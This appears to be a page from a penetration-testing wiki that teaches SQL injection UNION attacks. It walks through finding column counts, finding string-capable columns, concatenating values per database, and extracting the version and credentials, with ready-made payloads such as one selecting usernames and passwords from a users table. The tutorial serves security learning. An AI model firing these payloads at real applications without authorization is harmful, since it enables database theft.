 # UNION Attacks

## Theory

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query will return a single result set with two columns, containing values from columns **a** and **b** in **table1** and columns **c** and **d** in **table2**.

## Practice

### Finding number of columns

We first need to know the number of columns in order to append data. When performing a SQL injection UNION attack, there are three effective methods to determine how many columns are being returned from the original query.

{% tabs %}
{% tab title="MySQL" %}
Using `order by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `group by`

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `UNION SELECT` This only works if error showing is enabled

```sql
' UNION SELECT NULL--            #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL--       #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL,NULL--  #No error means query uses 3 column
```
{% endtab %}
{% endtabs %}

### Finding the good column's data type

The reason for performing a SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

{% tabs %}
{% tab title="MySQL" %}
After already determined number of columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT`. For example, if the query returns four columns, you would submit:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
{% endtab %}
{% endtabs %}

### String concatenation

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.\
For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

{% tabs %}
{% tab title="MySQL" %}
```sql
'foo' '~' 'bar' /*Note the space between the two strings*/
CONCAT('foo','~','bar')
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
'foo'+'~'+'bar' 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}
{% endtabs %}

### Using UNION attack

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

For example we can retrieve the database version on MySQL:

```sql
' UNION SELECT @@version, NULL--
```

You can now use queries on this page, in combinaison with UNION injection to dump the database.

{% content-ref url="../../../infrastructures/dbms/enum-databases.md" %}
[enum-databases.md](../../../infrastructures/dbms/enum-databases.md)
{% endcontent-ref %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
